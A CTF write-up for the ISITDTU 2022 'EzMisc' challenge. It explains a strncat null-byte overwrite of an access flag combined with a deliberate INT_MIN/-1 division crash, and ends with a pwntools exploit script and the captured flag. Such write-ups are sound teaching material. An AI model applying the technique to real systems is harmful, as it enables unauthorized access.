 # ISITDTU Final 2022 - EzMisc

You can download challenge files here: [game.zip](game.zip)

There are 3 files in zip:
- game
- libc.so.6
- ld-linux-x86-64.so.2 (I added)

Download, extract and patch the libc to the binary with the following commands:

```bash
patchelf --replace-needed libc.so.6 ./libc.so.6 ./game
patchelf --set-interpreter ./ld-linux-x86-64.so.2 ./game
```

Now, we can get started!

# 1. Find bug && Idea

First, let's decompile the file to get the flow of program. The binary is stripped so we cannot see any function name so I will rename some of them for easy understanding. Here is the decompilation of main:

![main.png](images/main.png)

In main(), the program first creates a new mmap address called `new_chunk` with data type is DWORD and it then sets `new_chunk[64] = 1`. We can see that `new_chunk[65]` is used for exiting the program if `new_chunk[65]` equal to 1. It then creates a child thread and that child thread will run the function called run(), while the parent thread will wait until the child return, exit or crash. Let's check the function run:

![run.png](images/run.png)

In run(), the program first saves the data of `new_chunk` to a global variable and will restore that after each option:

![reset_buf.png](images/reset_buf.png)

Next, we can see that there are 3 options for us to use. For this challenge, we will focus in two options 1 and 2 because the last option is for another challenge called EzPwn which use the same files. Let's check the function read_motd() first:

![read_motd.png](images/read_motd.png)

As we known, `new_chunk[64]` is set to 1 at the begining of main() so if we choose option 2, we will get `Access denied` but our target is the execution of `system("cat flag1")`. Let's switch back to option 1, function play_game:

![play_game.png](images/play_game.png)

This is the only function that we can use and run. Therefore, this function might help us set `new_chunk[64]` back to 0 and we can get the flag in option 2. The function first read a string with function read_str(), which read data to a global pointer and return that pointer:

![read_str.png](images/read_str.png)

With the pointer returned from function read_str(), it then copies 0x100 bytes from the global pointer to the `new_chunk` created via mmap. If you notice that 0x100 bytes is equal with `4*64`, which is fit from `new_chunk[0]` to `new_chunk[63]`. But wait, here is the description of function strncat:

![strncat.png](images/strncat.png)

It will automatically add a null byte after the string, hence we can overwrite `new_chunk[64]` to null and we got what we want. But if we finish the function play_game(), data of `new_chunk` will be restore and `new_chunk[64]` will be 1 again, we will lost all we have got.

As we known, this is a child thread and the global variable `check` of function reset_buf() above is 1, but the global variable `check` of parent thread is still 0. Hence, if we can make this child thread exit without jumping back to reset_buf(), the program will create another new thread and the data of `new_chunk` will be kept the same, which means `new_chunk[64]` will be 0 for the next new thread created.

Because the only function we can use and run is play_game(), let's see how we make it crash. At first, I was looking for bugs in shared function such as printf or atoi but that was not possible. My second thought was to use the exit of function read_str by closing stdin and tried to reopen it for later use but still failed.

After the ctf ended, I ask for some hint and I was introduced to a bug integer overflow in this link: https://www.gnu.org/software/autoconf/manual/autoconf-2.60/html_node/Integer-Overflow.html. Basically, if the quotient of a division is larger than the size of output register, we get a SIGFPE as this post describe: https://docs.oracle.com/cd/E19455-01/806-3773/instructionset-44/index.html, more about idiv in assembly, you can read here: https://stackoverflow.com/questions/24672767/idiv-overflow-exception-asm.

We know that the maximum number of int is `0x7fffffff` (`2147483647` in decimal) and the minimum number of int is `0x80000000` (`-2147483648` in decimal) so if we divide a large number, such as `eax = 0xffffffff` and `edx = 1`, the number will be `edx:eax = 0x1ffffffff = 8589934591` and with the divisor is `1` for example, the quotient will be:

```python
>>> 8589934591 / 1
8589934591
```

But that is 5 bytes (`0x1ffffffff` is 5 byte in length) and will raise signal SIGFPE. One more typical example is if we divide `-2147483648` with `-1`, what will happen:

```python
>>> -2147483648 / -1
2147483648
```

It will change the sign of number. But wait, the maximum of int is just `2147483647` so if the result of division is `2147483648`, that's not legit --> SIGFPE too. The following assembly code can demonstrate that:

```as
section .text
	global _start

_start:
	mov eax, 0x80000000
	cdq
	mov ebx, 0xffffffff
	idiv ebx
```

That's all we should know. Summary:
- Input long payload to overwrite `new_chunk[64]` to null
- Make the division return SIGFPE

# 2. Exploit

We can input a payload upto 0x7ff bytes but that isn't necessary to inputing 0x100 bytes is enough. We want the program multiply the byte of payload with a number to get `0x80000000` so our string will be a string of byte `\x01`, the first magic number is `0x80000000` and the second one is `0xffffffff` (which is `-1` due to signed division). We have the following script to get flag:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./game")
# p = process(exe.path)
p = remote("20.121.188.64", 31337)

p.sendlineafter(b'choice: ', b'1')
p.sendafter(b'string: ', b'\x01'*0x100)
p.sendafter(b'number: ', str(0x80000000).encode() + b'\n')
p.sendafter(b'number: ', str(0xffffffff).encode() + b'\n')

p.sendlineafter(b'choice: ', b'2')

p.interactive()
```

# 3. Get flag

![get-flag.png](images/get-flag.png)

Flag is `ISITDTU{18cb1a14864e48ce4ee06d9aef0bf989cf1c8c9043c59ed68f4545cbacc63a5d}`